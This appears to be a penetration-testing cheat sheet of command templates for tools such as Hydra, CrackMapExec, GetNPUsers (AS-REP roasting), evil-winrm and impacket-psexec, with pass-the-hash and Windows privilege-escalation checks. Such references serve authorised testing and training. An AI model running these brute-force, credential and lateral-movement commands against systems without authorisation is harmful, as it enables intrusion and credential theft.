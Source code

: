 ﻿
### **Dirsearch:**
- *dirsearch -u URL -l WORDLIST -x EXCLUDE_STATUES -I INCLUDE_STATUSES -e EXTENSION -t THREADS*

### **Hydra:**
- *hydra -L USER_FILE -P PASS_FILE -t THREADS -e nsr -s PORT protocol://IP:PORT*

### **SSH:**
- *ssh -o "ServerAliveInterval 60" server_address -I priv_key*

### **nc Port scan:**
- *nc -z -w 1 -v IP PORTRANGE (start-end) 2>&1 | grep -I succeeded*

### **Curl:**
- *curl -A/-H [header] [url]*

### **Crackmapexec:**
- *crackmapexec type (winrm/smb) -u user/userfile -p pass/passfile IP*

### **SNMPwalk:**
- *snmpwalk -v 2c -c public [IP] [OID/MIB]*

### **Wfuzz:**
1. **Subdomain enum:**
- *wfuzz -u main_host -w wordlist -H FUZZ.host.com --sc 200 --hc 302*

### **GetNPUsers**
1. **AS-REP roasting**
a. *GETNPUsers.py -no-pass -dc-ip IP domain/user or --users-list list*

### **Wmic:**
1. **Weak service permissions**
a. *wmic service list brief*
2. **Unquoted service paths**
a. *wmic service get name,pathname,startmode | findstr /I "auto"*

### **SC**
1. **Unquoted service paths**
a. *sc query*
b. *sc qc service name*

### **Evil-winrm:**
1. **Pass-The-Hash**
a. *evil-winrm -I host-ip -u user -H nthash*
2. **Download files:**
a. *evil-winrm download file_name*

### **Impacket-psexec**
1. **Pass the hash**
a. *impacket-psexec -hashes lm:nt username@ip*
